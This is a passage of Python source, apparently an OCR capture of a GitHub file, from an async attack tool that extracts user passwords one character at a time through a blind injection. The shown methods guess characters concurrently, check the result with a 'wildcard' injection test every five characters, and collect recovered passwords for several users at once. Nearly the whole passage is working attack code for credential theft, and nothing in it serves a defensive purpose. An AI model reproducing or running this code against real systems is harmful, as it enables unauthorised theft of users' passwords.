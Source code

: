 ```python
                    if VERBOSE:
                        print(f"    [+] Found: '{char}' at position {len(known_prefix)}")
        
        # Return first found character (usually only one)
        return found_chars[0] if found_chars else None
    
    async def extract_password_fast(self, username):
        """
        FAST PASSWORD EXTRACTION
        Uses concurrent character testing
        """
        print("=" * 50)
        print(f"[*] Extracting: {username}")
        
        # Check description exists
        if not await self.check_has_description(username):
            print(f"[-] No description for {username}")
            return None
        
        print(f"[+] Description exists for {username}")
        
        password = ""
        no_char_count = 0
        
        for position in range(MAX_PASSWORD_LENGTH):
            print(f"[*] Position {position}...", end=" ", flush=True)
            
            # CONCURRENT character search
            char = await self.find_next_char_concurrent(username, password)
            
            if char is None:
                no_char_count += 1
                print("✗")
                if no_char_count >= 2:
                    print(f"[+] Password complete at {position} chars")
                    break
            else:
                password += char
                no_char_count = 0
                print(f"✓ '{char}' -> {password}")
            
            # Verify every 5 characters
            if len(password) % 5 == 0 and len(password) > 0:
                if not await self.test_injection_fast(username, password, "wildcard"):
                    print(f"[!] Verification failed at position {position}!")
                    break
        
        if password:
            print(f"[✓] COMPLETE: {username} = {password}")
            return password
        
        return None
    
    async def extract_multiple_users(self, usernames):
        """
        CONCURRENT USER EXTRACTION
        Process multiple users simultaneously
        """
        async def extract_user_wrapper(username):
            """Wrapper to handle individual user extraction"""
            result = await self.extract_password_fast(username)
            if result:
                self.extracted_passwords[username] = result
```